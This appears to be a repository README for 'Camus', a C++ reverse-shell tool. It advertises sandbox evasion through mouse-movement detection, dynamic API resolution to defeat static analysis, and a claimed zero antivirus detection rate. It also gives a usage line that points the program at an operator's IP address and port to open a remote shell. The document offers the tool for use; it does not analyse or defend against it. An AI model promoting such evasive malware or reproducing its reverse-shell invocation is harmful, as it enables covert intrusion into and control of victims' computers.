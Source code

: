 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>

Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

How to Use:
1. Run the program alongside with the IP address and port as inputs
   for example: Camus.exe 192.168.1.1 555


 <img src="Image/Antiscan.png" width="500">
 <img src="Image/2.png" width="800">
 <img src="Image/3.png" width="800">
